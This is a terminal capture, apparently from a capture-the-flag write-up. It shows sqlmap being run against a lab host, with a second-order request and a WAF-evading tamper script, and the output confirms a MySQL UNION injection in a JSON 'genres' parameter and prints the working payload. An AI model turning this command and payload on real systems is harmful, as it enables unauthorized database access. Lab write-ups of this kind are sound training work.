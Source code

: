 ```

oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5
...[snip]...
[16:39:51] [INFO] parsing HTTP request from 'genres.request'
[16:39:51] [INFO] parsing second-order HTTP request from 'feed.request'
[16:39:51] [INFO] loading tamper module 'space2comment'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter 'XSRF-TOKEN' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[16:39:51] [INFO] testing connection to the target URL
[16:39:51] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[16:39:51] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON genres' might not be injectable
[16:39:52] [INFO] testing for SQL injection on (custom) POST parameter 'JSON genres'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[16:39:52] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[16:40:00] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
[16:40:08] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[16:40:09] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[16:40:10] [INFO] target URL appears to have 5 columns in query
[16:40:10] [INFO] (custom) POST parameter 'JSON genres' is 'MySQL UNION query (NULL) - 1 to 10 columns' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n] Y
(custom) POST parameter 'JSON genres' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 85 HTTP(s) requests:
---
Parameter: JSON genres ((custom) POST)
    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: {"genres":"food') UNION ALL SELECT NULL,NULL,CONCAT(0x71786a6271,0x494a62554f746d6d4c4e6a516167514a717443754e775069554a4c62424959456f535751634d7668,0x7171706271),NULL,NULL#"}
---
[16:40:10] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:40:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL Unknown (MariaDB fork)
[16:40:11] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 35 times
[16:40:11] [INFO] fetched data logged to text files under '/home/oxdf/.local/share/sqlmap/output/10.10.11.220'

```
